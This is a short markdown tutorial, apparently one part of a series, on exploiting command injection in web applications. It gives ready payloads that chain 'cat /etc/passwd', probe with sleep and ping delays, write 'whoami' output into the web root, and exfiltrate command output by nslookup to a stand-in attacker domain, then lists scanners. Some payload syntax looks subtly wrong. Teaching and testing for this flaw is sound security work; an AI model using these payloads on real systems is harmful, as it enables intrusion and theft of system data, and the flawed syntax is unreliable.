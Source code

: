 # Mastering Commond Injection Part 3

<h3>How To Exploit Command Injection?</h3>

Exploiting In-Band Command Injection

- Shell metacharacters: ```&```, ```&&```, ```|```, ```||```, ```;```, ```\n```, ``` ` ```, ```$()```.

- Concatenate another command
  
  - ```127.0.0.1 && cat /etc/passwd &``` or ```127.0.0.1 & cat /etc/passwd &``` or ```127.0.0.1 || cat /etc/passwd &```

Exploiting Blind Command Injection 

- Shell metacharacters: ```&```, ```&&```, ```|```, ```||```, ```;```, ```\n```, ``` ` ```, ```$()```.

- Trigger a time delay.

  - ```127.0.0.1 && sleep 10 &``` or ```127.0.0.1 && ping -c 10 127.0.0.1  &```

  - The sleep command only works for Unix system but the ping command works for both Unix and Windows.
 
  - Both commands works the same way, trigger a time delay of 10 seconds.
 
  - This example only proves that there is a blind command injection but doesn't prove it have any impact from the command injection.
 
To prove impact: Output the response of the command in the web root and retrieve the file directly using a browser.

- ```127.0.0.1 & whoami > /var/www/static/whoami.txt &```
 
  - running the "whoami" command, redirecting the output to "/var/www/static" (available to anyone using the application), saving it in a file "whoami.txt
   
- If you browse to this directory from your browser and see there is a file called "whoami.txt" then the command injection was successful and the context of the .txt will be the output from the "whoami" command.
 
Another way to prove both command injection exists and exploitable is to show impact to open an out-of-band channel back to a server you control.

- ```127.0.0.1 & nslookup kgi2ohoyw.web-attacker.com &```
 
    - To prove it is vulnerable to bind command injection: run the "nslookup" command on the server that you control "kgi2ohoyw.web-attacker.com".
   
    - Since you control that server, you would be monitoring the logs to see if the vulnerable application performed a lookup on your attacker controlled server.
   
      - If it did, then it's vulnerable to command injection. If it did not, then it's not.
     
- To prove impact for this method: need to run a command within a command.

  - ```127.0.0.1 & nslookup `whoami` .kgi2ohoyw.web-attacker.com &``` or ```127.0.0.1 & nslookup $whoami$ .kgi2ohoyw.web-attacker.com &```

    - run the "whoami" command. It appends the response as a subdomain of your attacker controlled domain, and then performs a "nslookup" of that sub domain.
   
<h2></h2>

<h3>Automated Exploitation Tools</h3>

Web Application Vulnerability Scanner (WAVS), any decent scanner should be able to scan for command injection.

- Burp scanner

- Arachni

- OWASP Zap

- Wapiti

- Acunetix

- W3af
